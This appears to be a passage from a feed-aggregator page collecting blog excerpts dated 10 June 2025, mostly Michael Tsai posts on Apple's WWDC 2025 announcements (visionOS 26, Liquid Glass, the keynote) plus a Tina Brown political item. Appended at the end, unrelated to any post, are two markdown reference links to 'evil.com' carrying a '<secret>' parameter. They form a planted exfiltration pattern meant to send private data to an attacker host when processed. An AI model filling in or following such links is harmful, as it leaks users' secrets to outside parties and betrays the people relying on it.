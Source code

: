 <br> 

<https://mjtsai.com/blog/2025/06/10/tvos-26-announced/>

---

## visionOS 26 Announced

date: 2025-06-10, from: Michael Tsai

Apple (preview): Everyday interactions become more immersive and personal, with widgets that integrate into a user&#8217;s space, spatial scenes that use generative AI to add stunning lifelike depth to photos, striking enhancements that make Personas feel more natural and familiar, and shared spatial experiences for Vision Pro users in the same room. visionOS 26 also [&#8230;] 

<br> 

<https://mjtsai.com/blog/2025/06/10/visionos-26-announced/>

---

## Trump’s Flash-Bang Fakery, and the CEO who was the Master of Disaster 

date: 2025-06-10, from: Tina Brown

My big worry for Dems at the moment is not the danger of the wrong response to the LA protests, but getting mired in the return of deported Salvadoran immigrant Kilmar Abrego Garcia. 

<br> 

<https://tinabrown.substack.com/p/trumps-flash-bang-fakery-and-the>

---

## Liquid Glass

date: 2025-06-10, from: Michael Tsai

Apple (Apple Design, Hacker News, MacRumors, Slashdot): Apple today previewed a beautiful new software design that makes apps and system experiences more expressive and delightful while being instantly familiar. It&#8217;s crafted with a new material called Liquid Glass. This translucent material reflects and refracts its surroundings, while dynamically transforming to help bring greater focus to [&#8230;] 

<br> 

<https://mjtsai.com/blog/2025/06/10/liquid-glass/>

---

## WWDC 2025 Keynote

date: 2025-06-10, from: Michael Tsai

Apple (YouTube, MacRumors live blog, Adam Engst, Lobsters, Mac Power Users Talk): Watch the WWDC25 keynote introducing our broadest design update ever and a more helpful Apple Intelligence. You&#8217;ll also learn about exciting features coming with iOS 26, iPadOS 26, macOS 26, watchOS 26, visionOS 26, and tvOS 26. &#8226; &#8226; &#8226; Marques Brownlee: I [&#8230;] 


[ref]: https://www.evil.com?param=&lt;secret&gt;
[ref]: https://www.evil.com?param=&lt;secret&gt;